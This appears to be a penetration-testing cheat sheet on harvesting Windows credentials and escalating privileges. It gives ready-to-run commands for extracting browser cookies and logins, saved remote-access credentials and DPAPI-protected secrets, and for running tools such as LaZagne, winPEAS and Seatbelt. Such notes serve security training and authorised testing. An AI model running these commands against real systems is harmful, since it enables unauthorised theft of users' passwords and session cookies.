 **Browser Credentials**
- Can use [SharpChrome](https://github.com/GhostPack/SharpDPAPI) to retrieve cookies/logins from Chrome
	- `.\SharpChrome.exe logins /unprotect`
- Firefox stores cookies  in a SQLite database at `%APPDATA%\Mozilla\Firefox\Profiles\{random_value}.default-release`
	- We can copy the database with `copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .`
	- Then, use something like [cookieextractor](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py) to extract the cookies from the DB

**Remote Access Tool Credentials**
- Use [SessionGopher](https://github.com/Arvanaghi/SessionGopher) to extract saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials
  - `Import-Module .\SessionGopher.ps1` and then run `Invoke-SessionGopher -Thorough`

**DPAPI Keys**
- Master encryption keys used by the Data Protection API (DPAPI) to encrypt data like passwords/certs
- Derived from logon passwords
- We'll find the master key in `~\AppData\Roaming\Microsoft\Protect\{user_SID}\`, which we can decrypt using impacket:
  - `dpapi.py masterkey -file {masterkey_file} -sid {user_SID} -password '{user_password}'`
- We can then use the masterkey to decrypt credentials, which are commonly found in `~\Appdata\(Roaming/Local)\Microsoft\Credentials\` again using impacket:
  - `dpapi.py credential -file {credential_file} -key '0x{master_key}'`

## Automated Tools

**Winpeas**
- Great general priv esc script
- Available at `https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe`
- `winpeas.exe --fileanalysis` to analyze files

**LaZagne**
- Specializes in finding credentials in all kinds of areas (browsers, chat clients, email, memory dumps, internal storage)
- [https://github.com/AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne)
- Run with `\lazagne.exe all`

**PowerUp Powershell Script**
- [https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)

**SharpUp ghostpack executable**
- [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpUp.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpUp.exe)
- Will check for misconfigured ACLs

**Seatbelt**
- https://github.com/GhostPack/Seatbelt
- Full enum: `.\Seatbelt.exe -group=all`

**Sherlock**
- Check for missing patches on outdated versions of Windows
- [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)
- `Import-Module .\Sherlock.ps1` and `Find-AllVulns`

